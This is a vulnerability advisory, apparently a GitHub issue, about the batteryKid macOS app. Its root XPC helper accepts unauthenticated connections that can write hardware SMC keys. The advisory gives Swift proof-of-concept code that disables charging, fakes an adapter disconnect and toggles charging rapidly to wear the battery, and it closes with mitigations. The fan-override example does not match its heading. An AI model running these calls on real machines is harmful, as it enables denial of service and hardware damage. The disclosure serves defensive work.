 # Local privilege abuse via unauthenticated XPC access to root SMC helper on macOS

## Summary

batteryKid for macOS registers a root-privileged XPC helper (`me.alaneuler.batteryKid.PrivilegeHelper`) that exposes unauthenticated methods to read and write SMC (System Management Controller) keys. Any local user can connect to this helper and perform privileged hardware operations, such as disabling charging or disconnecting the power adapter, without any authorization checks. This can lead to denial of service, degraded hardware performance, and potential battery wear.


## Technical Details

The vulnerable implementation is located in:
- [PrivilegeHelper.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/PrivilegeHelper.swift)
- [SMC.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/SMC.swift)

The privileged helper runs as root and registers a Mach service (`me.alaneuler.batteryKid.PrivilegeHelper`) using NSXPCListener. It then unconditionally accepts all incoming connections:

```swift
  func listener(
    _: NSXPCListener,
    shouldAcceptNewConnection newConnection: NSXPCConnection
  ) -> Bool {
    newConnection.exportedInterface = NSXPCInterface(with: HelperProtocol.self)
    newConnection
      .remoteObjectInterface = NSXPCInterface(with: RemoteApplicationProtocol
        .self)
    newConnection.exportedObject = self
    newConnection.resume()
    return true
  }
```

No validation (such as auditToken or code signing) is performed. 

The helper then exposes functions like:

```
func disableCharging(completion: @escaping (Int) -> Void)
func enableCharging(completion: @escaping (Int) -> Void)
func disablePowerAdapter(completion: @escaping (Int) -> Void)
func enablePowerAdapter(completion: @escaping (Int) -> Void)
```

This writes directly to low-level SMC keys such as:

- `CH0B`: battery charging state (0 = charging, 2 = not charging)
- `CH0I`: AC adapter presence (0 = present, 1 = disconnected)
- `F0Mn`: fan minimum RPM (setting to 0 disables fan)
- `F0Mx`: fan max speed (setting too high stresses fans)

There is no authentication, no sandboxing, and no validation of the calling client. Any local process can connect to the MachService and issue dangerous SMC writes via exposed methods.

## Proof-of-Concepts

You can interact with the XPC service from any unprivileged local process using `pc_connection_create_mach_service()` or `NSXPCConnection`, as long as the Mach service is registered.

#### Fan Override (Force 0 RPM Fan)

>This script sets the minimum fan speed to 0, causing overheating risks.

```swift
import Foundation
import BatteryKidXPC  // assumes the helper client interface is accessible

let connection = NSXPCConnection(machServiceName: "me.alaneuler.batteryKid.PrivilegeHelper", options: [])
connection.remoteObjectInterface = NSXPCInterface(with: HelperProtocol.self)
connection.resume()

let helper = connection.remoteObjectProxyWithErrorHandler { error in
    print("XPC Error: \(error)")
} as? HelperProtocol

helper?.disableCharging { result in
    print("disableCharging returned: \(result)")
}

sleep(1)

helper?.enablePowerAdapter { result in
    print("enablePowerAdapter returned: \(result)")
}

sleep(1)

helper?.disablePowerAdapter { result in
    print("disablePowerAdapter returned: \(result)")
}
```

You could expand this by modifying the helper to expose an XPC method like `setFanMinRPM(value: Int)` which internally writes to SMC key `F0Mn`.

#### Proof-of-Concept disable battery charging

>This PoC alternates SMC register CH0B rapidly to damage charging behavior.

```swift
for _ in 0..<100 {
    helper?.disableCharging { _ in }
    usleep(50000) // 50ms
    helper?.enableCharging { _ in }
    usleep(50000)
}
```

Over time, this could degrade the battery and confuse firmware logic, especially on older Macs where SMC state is more fragile.

#### Fake Power Adapter Disconnect

>This makes the system believe the AC adapter is unplugged, even if it’s not.
```swift
helper?.disablePowerAdapter { result in
    print("System now believes it's on battery power.")
}
```

## Impact

A local, unprivileged attacker can:

- Disable battery charging
- Disconnect the power adapter virtually
- Potentially damage battery health or trigger thermal throttling
- Cause denial of service on laptops (by draining battery)

This breaks macOS’s security boundary between user and system-level operations.

## Mitigation

**Recommended fixes:**

1. Enforce connection validation
Use auditToken in shouldAcceptNewConnection() to restrict access to trusted, signed client apps.

2. Restrict exposed methods
Only expose a minimal, readonly subset of functions to non-privileged clients (if any at all).

3. Add authentication logic
Consider a signed message protocol or authentication handshake before accepting requests.

4. Use SMJobBless properly
Only allow elevated operations after proper user consent and authorization.


References:
- https://github.com/alaneuler/batteryKid/issues/22

